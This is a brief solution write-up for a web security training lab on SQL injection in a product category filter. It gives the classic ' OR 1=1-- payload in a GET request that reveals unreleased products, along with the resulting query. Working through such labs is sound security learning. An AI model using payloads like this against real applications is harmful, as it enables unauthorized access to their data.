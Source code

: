 # Description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
# Solution

```
GET /filter?category=' OR 1=1--
```

=> **SQL query:** `SELECT * FROM products WHERE category = '' OR 1=1--

![](../../Image/Pasted%20image%2020250512175843.png)

=> **Content-Length** has changed.

